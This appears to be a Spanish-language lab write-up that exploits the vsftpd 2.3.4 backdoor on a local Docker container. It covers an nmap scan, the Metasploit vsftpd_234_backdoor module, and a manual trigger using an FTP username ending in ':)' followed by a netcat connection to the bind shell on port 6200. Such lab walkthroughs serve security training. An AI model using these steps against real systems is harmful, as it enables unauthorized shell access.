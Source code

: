
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh 
```

![[Pasted image 20250130162053.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250130162149.png]]

Utilizamos **Metasploit** para explotar la vulnerabilidad:

```
search vsftpd
```

![[Pasted image 20250130162511.png]]

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

![[Pasted image 20250130162525.png]]

```
show options
```

![[Pasted image 20250130162540.png]]

```
set RHOSTS 172.17.0.2
```

![[Pasted image 20250130162555.png]]

```
show options
```

![[Pasted image 20250130162608.png]]

```
exploit
```

![[Pasted image 20250130162625.png]]

```
/bin/bash -i
```

![[Pasted image 20250130162636.png]]

```
whoami
```

![[Pasted image 20250130162654.png]]

Otra forma de explotar:

```
ftp 172.17.0.2
```

![[Pasted image 20250130162943.png]]

```
hola:)
```

![[Pasted image 20250130163018.png]]

```
'blank'
```

![[Pasted image 20250130163104.png]]

Comprobamos que se ha abierto el puerto 6200:

```
nmap -sV -sC -sS -T 5 -n -Pn -p 6200 172.17.0.2
```

![[Pasted image 20250130163147.png]]

Nos conectamos al puerto con **Netcat**:

```
nc 172.17.0.2 6200
```

![[Pasted image 20250130163304.png]]

```
/bin/bash -i
```

![[Pasted image 20250130163320.png]]

```
whoami
```

![[Pasted image 20250130163330.png]]
